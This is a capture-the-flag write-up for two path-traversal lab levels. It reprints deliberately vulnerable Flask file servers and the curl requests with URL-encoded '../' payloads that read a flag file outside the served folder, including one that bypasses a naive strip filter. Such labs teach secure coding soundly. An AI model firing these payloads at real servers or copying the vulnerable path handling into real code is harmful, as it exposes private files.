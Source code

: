 ```yaml
---
tags: ["Web Security"]
title: "Path Traversal"
description: Get un-authorized files from web server using Path Traversal
reference: https://pwn.college/intro-to-cybersecurity/web-security/
---
```


# 1

## Description

This level will explore the intersection of Linux path resolution, when done naively, and unexpected web requests from an attacker. We've implemented a simple web server for you --- it will serve up files from /challenge/files over HTTP. Can you trick it into giving you the flag?

The webserver program is /challenge/server. You can run it just like any other challenge, then talk to it over HTTP (using a different terminal or a web browser). We recommend reading through its code to understand what it is doing and to find the weakness!

HINT: If you're wondering why your solution isn't working, make sure what you're trying to query is what is actually being received by the server! curl -v [url] can show you the exact bytes that curl is sending over.

## Solution

1. read the server code

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


@app.route("/payload", methods=["GET"])
@app.route("/payload/<path:path>", methods=["GET"])
def challenge(path="index.html"):
    requested_path = app.root_path + "/files/" + path
    print(f"DEBUG: {requested_path=}")
    try:
        return open(requested_path).read()
    except PermissionError:
        flask.abort(403, requested_path)
    except FileNotFoundError:
        flask.abort(404, f"No {requested_path} from directory {os.getcwd()}")
    except Exception as e:
        flask.abort(500, requested_path + ":" + str(e))


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

2. send an HTTP request that

- `%2F` is the URL encoded representation of the forward slash character `/`.
- Based on how the server process the request - `requested_path = app.root_path + "/files/" + path` and `path` is controlled by the HTTP client, if we set `path=../../flag`, then `requested_path = /flag`. It means we can access files outside from `/challeges/files/`.

```
curl -v challenge.localhost/payload/..%2f..%2fflag
```

---

# 2

## Description

The previous level's path traversal happened because of a disconnect between:

- The developer's awareness of the true range of potential input that an attacker might send to their application (e.g., the concept of an attacker sending characters that have special meaning in paths).
- A gap between the developer's intent (the implementation makes it clear that we only expect files under the /challenge/files directory to be served to the user) and the reality of the filesystem (where paths can go "back" up a directory level).

This level tries to stop you from traversing the path, but does it in a way that clearly demonstrates a further lack of the developer's understanding of how tricky paths can truly be. Can you still traverse it?

## Solution

1. read the server code

This time the server will strip out the `"/."` from the client input path.

```
path.strip("/.")
```

Effect from `strip("/.")`:

```
>>> "../../flag".strip("/.")
'flag'
```

Server code:

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)


@app.route("/serve", methods=["GET"])
@app.route("/serve/<path:path>", methods=["GET"])
def challenge(path="index.html"):
    requested_path = app.root_path + "/files/" + path.strip("/.")
    print(f"DEBUG: {requested_path=}")
    try:
        return open(requested_path).read()
    except PermissionError:
        flask.abort(403, requested_path)
    except FileNotFoundError:
        flask.abort(404, f"No {requested_path} from directory {os.getcwd()}")
    except Exception as e:
        flask.abort(500, requested_path + ":" + str(e))


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```


2. found there is a sub-folder inside `files`

```
hacker@web-security~path-traversal-2:/challenge$ ls files/fortunes/
fortune-1.txt  fortune-2.txt  fortune-3.txt
```

3. the `strip` function behaviour

do nothing when the string is not start with "/" or ".":

```
>>> "fortunes/../../../flag".strip("/.")
'fortunes/../../../flag'
```

4. curl

```
curl -v challenge.localhost/serve/fortunes%2f..%2f..%2f..%2fflag
DEBUG: requested_path='/challenge/files/fortunes/../../../flag'
```
